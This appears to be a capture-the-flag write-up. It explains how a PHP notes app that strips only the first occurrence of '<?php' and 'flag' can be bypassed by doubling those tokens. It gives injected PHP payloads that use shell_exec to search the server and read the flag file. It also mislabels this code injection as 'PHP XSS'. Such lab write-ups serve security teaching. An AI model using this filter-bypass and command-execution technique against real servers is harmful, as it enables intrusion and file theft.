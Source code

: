 # ProgrammersHateProgramming

<p align="center">
  <img height="300" src="https://user-images.githubusercontent.com/57249574/134533022-ef1119d2-36f8-4d36-8a08-96efbf486d39.png">
</p>

### Solution:
1. Looking at the code in file, it is clear that whatever note we are inputting is being processed and the first instance of words ``<?php``, ``?>``, ``<script>``, ``</script>``, ``flag`` are beigng replaced by nothing. The website is also built in PHP and is vulnerable to PHP XSS due to execution of user entered data. So, we can craft a PHP code which would bypass the replace mechanism and can exploit the server.

2. Let's craft the PHP exploit now.
```php
<?php
shell_exec('find /* | grep flag');
?>
```
3. This script will easily find all the files with 'flag' in their name on server but there is a problem due to code on the server as specified in point 1. So, we need to add some dublicate words to bypass the code:
```php
<?php<?php
shell_exec('find /* | grep flagflag');
?>?>
```
4. So, the first replacement will occur on the server and the exploit will be converted as written in the point 2.
5. We directly get the file at /flag.php where the flag is written from the output of script in point 3.
6. Now we add note,
```php
<?php<?php
shell_exec('cat /flagflag.php');
?>?>
```
7. And now we have a flag,
`` flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection}
``
